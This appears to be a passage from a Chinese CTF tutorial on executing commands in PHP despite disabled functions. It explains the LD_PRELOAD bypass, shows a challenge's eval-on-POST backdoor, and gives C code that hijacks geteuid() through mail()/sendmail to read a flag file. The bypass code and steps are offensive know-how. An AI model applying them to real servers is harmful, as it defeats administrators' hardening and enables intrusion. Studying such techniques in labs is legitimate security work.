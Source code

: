 ```shell

php demo.php
```

![image-20240314002547650](PHP命令执行.assets/image-20240314002547650.png)

```
绕过条件：
	能够上传自己的.so文件
	能够控制环境变量的值（设置LD_PRELOAD变量），比如putenv函数并且未被禁止
	存在可以控制PHP启动外部程序的函数并能执行（因为新进程启动将加载LD_PRELOAD中的.so文件），比如mail()、imap_mail()、mb_send_mail()和error_log()等
```

## mail()函数命令执行例题

```php
查看源代码
ini_set('open_basedir','/www/admin/localhost_81/wwwroot/class02' . $dir);
error_reporting(0);
if(isset($_POST['cmd'])){
    $cmd = $_POST['cmd'];
    if($cmd){
        eval($cmd);
    }
    else{
        echo "给你留个后门又能怎样？能拿到我根目录下的flag么？"
    }
}
并且从info得知禁用了所有可能用到命令执行的函数，但是mail()函数可用，可以直接用蚁剑连接，密码是cmd，但是虚拟终端基本无用，只可以上传文件
```

```php
mail函数->调用子程序"/usr/sbin/sendmail"->调用动态链接库geteuid函数

给geteuid重新赋值

vim demo.c

#include<stdlib.h>
#include<stdio.h>
#include<string.h>
void payload(){
	system("cat /flag > /tmp/flag"); //读取flag输出到/tmp/flag
}
int geteuid(){               //生成动作geteuid，执行payload
	unsetenv("LD_PRELOAD");  //结束调用
	payload();
}

gcc -shared -fPIC demo.c -o demo.so

vim demo.php

<?php
```